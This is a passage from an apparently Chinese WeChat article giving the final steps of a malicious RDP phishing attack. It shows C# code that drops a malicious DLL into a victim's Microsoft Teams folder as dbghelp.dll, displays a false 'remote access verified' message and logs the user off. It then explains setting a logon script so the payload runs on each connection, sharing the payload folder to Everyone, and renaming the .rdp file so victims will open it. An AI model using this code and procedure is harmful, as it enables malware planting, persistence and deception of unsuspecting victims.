                             string userTeamsFolder = $@"{dir}\AppData\Local\Microsoft\Teams\current";  
                            if (Directory.Exists(userTeamsFolder))  
                            {  
                                File.Copy(@"C:\Netlogon\mal.dll", $@"{userTeamsFolder}\dbghelp.dll");  
                                break;  
                            }  
                                  
                        }  
                        catch { }  
                    }  
                }  
                catch { }  
      
                MessageBox.Show("Your remote access have been verified.\nThank you for your cooperation.\nNo further action is needed.");  
                WTSLogoffSession(WTS_CURRENT_SERVER_HANDLE, WTS_CURRENT_SESSION, false);  
            }  
        }  
    }

因此，为了配置武器化过程，我编译了 MalRDP 和恶意 DLL，它将植入并将它们复制到我在 C:\Netlogon 创建的文件夹中的 EC2
服务器。我还创建了一个可以简单地运行 MalRDP.exe 的 bat 文件并将其称为 tsuser.bat

![]()image.png

现在我们需要将 tsuser.bat 设置为 tsuser 的登录脚本。通过这样做，我们确保每次受害者连接到我们的 RDP 服务器时都会运行
MalRDP。我们可以通过打开计算机管理 -> 系统工具 -> 本地用户和组 -> 用户 ->双击 tsuser -> 配置文件
->将登录脚本字段设置为“tsuser.bat”来设置它。

![]()image.png

最后要做的是共享 C:\Netlogon 文件夹，并确保“每个人都”组对其具有读取访问权限。右键单击 Netlogon 文件夹 -> 属性 -> 共享 ->
高级共享 ->选中“共享此文件夹”-> 权限 -> 确保“每个人”组具有读取访问权限。

![]()image.png

## 0x04 钓钓鱼

就是这样，我们准备将 malrdp.rdp 文件发送给我们的受害者 - 只要记住重命名它，我认为任何受害者都不会点击名为 malrdp.rdp 的文件。

并且不要忘记启动 pyrdp...

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

